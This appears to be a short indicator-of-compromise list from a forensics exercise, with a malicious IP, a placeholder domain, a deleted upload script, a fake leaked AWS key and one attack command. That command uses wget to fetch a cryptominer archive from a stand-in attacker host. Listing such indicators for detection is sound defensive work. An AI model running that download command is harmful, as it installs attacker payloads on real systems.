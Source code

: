 # Indicator of Compromise (IOC) Dump – DroneCropForensics Incident

Here are all the IOCs found during this investigation to help detect and block the attacker:

- **Malicious IP Address:** 91.203.119.5  
- **Malicious Domain:** badsite.example.com  
- **Deleted File:** /var/www/html/api/upload.php  
- **Leaked AWS Key:** AWS_SECRET_ACCESS_KEY=AKIA1234FAKEKEYYO  
- **Malicious Command:** wget http://badsite.example.com/cryptominer.tar.gz

## How I Collected These IOCs

I pulled these from the logs and analysis done during the project, including CloudTrail events, auth logs, and shell history. I also checked public threat intel to confirm the bad domain.

## How These Help

You can use these indicators in SIEM tools or network monitors to detect suspicious activity and respond faster.
